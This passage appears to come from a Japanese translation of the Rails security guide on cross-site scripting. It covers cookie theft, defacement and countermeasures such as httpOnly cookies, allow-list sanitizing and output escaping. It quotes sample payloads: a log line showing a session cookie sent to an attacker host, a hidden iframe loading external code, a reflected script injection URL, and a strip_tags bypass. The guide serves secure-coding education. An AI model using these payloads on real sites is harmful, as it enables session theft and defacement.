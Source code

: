 www.attacker.comのログファイルは次のようになります。

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

これらの攻撃を緩和するためには、クッキーに**httpOnly**フラグを追加することが重要です。これにより、`document.cookie`はJavaScriptから読み取ることができなくなります。HTTP Onlyクッキーは、IE v6.SP1、Firefox v2.0.0.5、Opera 9.5、Safari 4、およびChrome 1.0.154以降で使用することができます。ただし、WebTVやMac上のIE 5.5などの他の古いブラウザでは、ページの読み込みに失敗する可能性があります。ただし、Ajaxを使用すると、クッキーは[まだ表示されます](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly)。

##### 改ざん

ウェブページの改ざんでは、攻撃者はさまざまなことができます。たとえば、誤った情報を提示したり、被害者を攻撃者のウェブサイトに誘導してクッキーやログイン資格情報、その他の機密データを盗むことができます。最も一般的な方法は、iframeを使用して外部ソースからコードを含めることです。

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

これは外部ソースから任意のHTMLおよび/またはJavaScriptを読み込み、サイトの一部として埋め込みます。この`iframe`は、[Mpack攻撃フレームワーク](https://isc.sans.edu/diary/MPack+Analysis/3015)を使用して、実際のイタリアの正規サイトへの攻撃で使用されました。Mpackは、ウェブブラウザのセキュリティホールを介して悪意のあるソフトウェアをインストールしようとします。この攻撃は非常に成功しており、攻撃の50%が成功しています。

より専門的な攻撃では、ウェブサイト全体を重ね合わせたり、サイトのオリジナルと同じように見えるログインフォームを表示したりして、ユーザー名とパスワードを攻撃者のサイトに送信することができます。または、CSSと/またはJavaScriptを使用して、ウェブアプリケーション内の正規のリンクを非表示にし、その場所に偽のウェブサイトにリダイレクトする別のリンクを表示することもできます。

反射型のインジェクション攻撃は、ペイロードが後で被害者に表示されるのではなく、URLに含まれる攻撃です。特に検索フォームでは、検索文字列をエスケープすることに失敗することがあります。次のリンクは、「ジョージ・ブッシュが9歳の少年を議長に任命した」というページを表示しました。

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### 対策

_悪意のある入力をフィルタリングすることは非常に重要ですが、ウェブアプリケーションの出力をエスケープすることも重要です_。

特にXSSの場合、制限された入力フィルタリングではなく、許可された入力フィルタリングを行うことが重要です。制限されたリストフィルタリングは、許可されていない値ではなく、許可された値を指定します。制限されたリストは完全ではありません。

制限されたリストでは、ユーザーの入力から「script」を削除します。しかし、攻撃者は「<scrscriptipt>」をインジェクションし、フィルタリング後に「<script>」が残ります。以前のバージョンのRailsでは、`strip_tags()`、`strip_links()`、および`sanitize()`メソッドに制限されたリストアプローチが使用されていました。そのため、次のようなインジェクションが可能でした。

```ruby
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```

これは`"some<script>alert('hello')</script>"`を返し、攻撃が成功します。そのため、許可されたリストアプローチを使用する方が良いです。更新されたRails 2の`sanitize()`メソッドを使用します。
```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

これにより、指定されたタグのみが許可され、あらゆる種類のトリックや不正なタグに対してもうまく処理されます。

第二のステップとして、特にユーザーの入力を再表示する場合には、アプリケーションのすべての出力をエスケープすることが良いプラクティスです。これは、入力されていないフィルタリングされたユーザーの入力（前述の検索フォームの例のようなもの）を再表示する場合に特に重要です。HTMLの入力文字`&`、`"`、`<`、および`>`を、HTML内でのそのままの表現（`&amp;`、`&quot;`、`&lt;`、および`&gt;`）に置き換えるために、`html_escape()`（またはその別名である`h()`）メソッドを使用してください。
